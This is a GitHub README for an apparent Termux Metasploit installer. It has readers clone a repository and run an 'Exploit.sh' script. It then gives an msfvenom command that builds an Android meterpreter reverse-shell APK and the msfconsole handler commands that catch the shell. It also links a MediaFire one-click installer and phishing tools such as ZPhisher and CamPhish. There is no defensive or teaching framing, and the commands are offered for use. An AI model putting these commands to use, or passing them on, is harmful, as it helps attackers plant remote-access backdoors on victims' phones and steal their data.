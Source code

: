 # Metasploit


     Metasploit All Command👇

     git clone https://github.com/Vretlee/Metasploit
     cd Metasploit
     bash Exploit.sh

     After Install Metasploit Use This Cmd For Make App👇

     msfvenom -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 R >/sdcard/BaapG.apk

     After Install Apk Use This Cmd👇

     msfconsole
     use exploit/multi/handler
     set payload android/meterpreter/reverse_tcp
     set LHOST 127.0.0.1
     set LPORT 4444
     exploit

     Follow Me @krish_na_2568 ☝


Metasploit
<a href="https://www.mediafire.com/download/uga6en3n3dwya8e">Install Metasploit Only One Click</a>
<a href="https://github.com/Vretlee/ZPhisher"><img title="" src="https://raw.githubusercontent.com/T-Dynamos/Metasploit/main/368-3682149_this-metasploit-logo.png" data-canonical-src="https://github-readme-stats.vercel.app/api/pin/?username=noob-hackers&amp;repo=ipdrone&amp;theme=highcontrast" style="max-width:100%;"></a>
<a href="https://github.com/Vretlee"><img title="" src="https://camo.githubusercontent.com/abb97269de2982c379cbc128bba93ba724d8822bfbe082737772bd4feb59cb54/68747470733a2f2f63646e2e7261776769742e636f6d2f73696e647265736f726875732f617765736f6d652f643733303566333864323966656437386661383536353265336136336531353464643865383832392f6d656469612f62616467652e737667" data-canonical-src="https://github-readme-stats.vercel.app/api/pin/?username=noob-hackers&amp;repo=ipdrone&amp;theme=highcontrast" style="max-width:100%;"></a>
<a href="https://github.com/Vretlee/Love"><img title="" src="https://camo.githubusercontent.com/deab10366c6377e3d4cc454a26f96225e2cc196214b129b95c9d5284207b64d7/68747470733a2f2f696d672e736869656c64732e696f2f7374617469632f76313f6c6162656c3d254630253946253843253946266d6573736167653d496625323055736566756c267374796c653d7374796c653d666c617426636f6c6f723d424334453939" data-canonical-src="https://github-readme-stats.vercel.app/api/pin/?username=noob-hackers&amp;repo=ipdrone&amp;theme=highcontrast" style="max-width:100%;"></a>
<a href="https://github.com/Vretlee/Metasploit/issues"><img title="" src="https://camo.githubusercontent.com/d2ce71b866adc34cea6d0b44c145414ffa4b3413670aa50d03fadeae3c2fe5b0/68747470733a2f2f696d672e736869656c64732e696f2f6769746875622f6973737565732f616268697368656b6e61696964752f617765736f6d652d6769746875622d70726f66696c652d726561646d65" data-canonical-src="https://github-readme-stats.vercel.app/api/pin/?username=noob-hackers&amp;repo=ipdrone&amp;theme=highcontrast" style="max-width:100%;"></a>
<a href="This Tool Coming Soon. Only Short Commond"><img title="" src="https://camo.githubusercontent.com/90ed75bedb127d286843190584a8e2a965c1b80d9d92243564fc563f67e72691/68747470733a2f2f696d672e736869656c64732e696f2f62616467652f4e657448756e7465722de29c942d7265642e7376673f7374796c653d706c6173746963" data-canonical-src="https://github-readme-stats.vercel.app/api/pin/?username=noob-hackers&amp;repo=ipdrone&amp;theme=highcontrast" style="max-width:100%;"></a>
</p>


<a href="https://github.com/Vretlee/ZPhisher"><img title="" src="https://camo.githubusercontent.com/bad647b76b8e2bcbcc96dbcc24187f488fd88d6f54157ea9b6c69061dce907c9/68747470733a2f2f6d656469612e67697068792e636f6d2f6d656469612f64786e3666526c544953686f65427236394e2f67697068792e676966" data-canonical-src="https://github-readme-stats.vercel.app/api/pin/?username=noob-hackers&amp;repo=ipdrone&amp;theme=highcontrast" style="max-width:100%;"></a>
<a href="https://t.me/Rajputana50"><img title="" src="https://camo.githubusercontent.com/7253c590cd003e0818446456c477ae10ae62ba19b7788bd640241f2920b7f916/68747470733a2f2f696d672e736869656c64732e696f2f62616467652f4275696c74253230776974682d2545322539442541342d6f72616e67652e7376673f7374796c653d666c61742d737175617265" data-canonical-src="https://github-readme-stats.vercel.app/api/pin/?username=noob-hackers&amp;repo=ipdrone&amp;theme=highcontrast" style="max-width:100%;"></a>
<a href="https://www.jairajputana.com"><img title="" src="https://camo.githubusercontent.com/5bd9180b0bfaaf62a463a4ee9691a3a74c82b6ca131f08c53e3a79f31984db3b/68747470733a2f2f696d672e736869656c64732e696f2f62616467652f4d616465253230776974682d507974686f6e2d7265642e7376673f7374796c653d666c61742d737175617265" data-canonical-src="https://github-readme-stats.vercel.app/api/pin/?username=noob-hackers&amp;repo=ipdrone&amp;theme=highcontrast" style="max-width:100%;"></a>
<a href="https://twitter.com/Jairajputana501?s=09"><img title="" src="https://camo.githubusercontent.com/62203bd0ea689c58dff8398a21b7a1ac677c152bfa707490ea991c9fa3c09282/68747470733a2f2f696d672e736869656c64732e696f2f62616467652f4a6f696e2d536c61636b2d696e666f726d6174696f6e616c3f7374796c653d666c61742d737175617265266c6f676f3d736c61636b" data-canonical-src="https://github-readme-stats.vercel.app/api/pin/?username=noob-hackers&amp;repo=ipdrone&amp;theme=highcontrast" style="max-width:100%;"></a>
</p>



# T-Dynamos

All Credit :- <a href="https://github.com/T-Dynamos/Metasploit">Ansh Dadwal</a>


<a href="https://github.com/Vretlee/ZPhisher"><img title="" src="https://github.com/T-Dynamos/Metasploit/raw/main/Screenshot_2021-07-12-10-49-33-340_com.termux.jpg" data-canonical-src="https://github-readme-stats.vercel.app/api/pin/?username=noob-hackers&amp;repo=ipdrone&amp;theme=highcontrast" style="max-width:100%;"></a>
<a href="https://github.com/Vretlee/CamPhish"><img title="" src="https://github.com/Vretlee/Metasploit/blob/main/Screenshot_2021-07-29-12-30-45-215_com.termux.jpg" data-canonical-src="https://github-readme-stats.vercel.app/api/pin/?username=noob-hackers&amp;repo=ipdrone&amp;theme=highcontrast" style="max-width:100%;"></a>
</p>

# Rawan
<a href="https://github.com/Vretlee/CamPhish"><img title="" src="https://repository-images.githubusercontent.com/75691232/54b4ff00-65d8-11e9-8eee-9b11692cb431" data-canonical-src="https://github-readme-stats.vercel.app/api/pin/?username=noob-hackers&amp;repo=ipdrone&amp;theme=highcontrast" style="max-width:100%;"></a>
</p>

